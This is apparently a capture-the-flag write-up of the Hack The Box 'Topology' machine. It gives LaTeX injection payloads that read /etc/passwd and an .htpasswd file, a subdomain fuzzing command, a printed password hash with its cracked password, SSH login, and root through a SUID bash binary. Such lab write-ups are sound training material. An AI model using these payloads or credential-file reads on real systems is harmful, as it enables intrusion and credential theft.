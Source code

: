 # Topology-HTB
Hello Guy's

Finding open ports:
1)22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

2)80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))

When i open in browser showing normal topology website.

Directory fuzzing:
Finding lots of directory but all are useless.

In main page showing latex equation generator page but this is not open.
{Add /etc/hosts file in ip and -  latex.topology.htb}

Showing a search field where you put any math formula and website throw some results.
**(Latex injection, also known as code injection, is a security vulnerability that occurs when an attacker is able to inject malicious LaTeX code into an application or system that processes LaTeX input)**

now try to find payload related to latex injection.(https://0day.work/hacking-with-latex/)

try this "$\lstinputlisting{/etc/passwd}$\" , but showing error message

again try "$\lstinputlisting{/etc/passwd}$" and get /etc/passwd file where i show a user.

Now try to find subdomains in topology.htb.

Use ffuf tool:

ffuf -u http://topology.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.toplogy.htb" -fc 200

And get "dev"

Now add /etc/hosts in dev.topology.htb file in your ip.

When I open this url showing login page, when i try to use admin:admin as a credentials but website throw (401:unauthorized) status error.

Now find apache 401 unauthorized exploit:

Now i find /var/www/dev/.htpasswd file reterived credentials which is encrypted form.

Now try this payload:

"$\lstinputlisting{/var/www/dev/.htpasswd}$"

Get credentials: 

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO

Crack this hash using john:
$john hash.txt --wordlist=/home/kali/rockyou.txt ==> calculus20

Using ssh get the shell of the machine using
(vdaisley:calculus20) this credentials.

Got user.txt

Now to find root priv, linpeas.sh file is already contains in home directory.

But I use manually check sudo binary using find command:
$find / -perm -4000 -type f 2>/dev/null

I found /usr/bin/bash binary:
when i check 
$ls -ld /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash

**$/usr/bin/bash -p**

and :)Boom:) get root.

find root.txt and finally go to bed:)

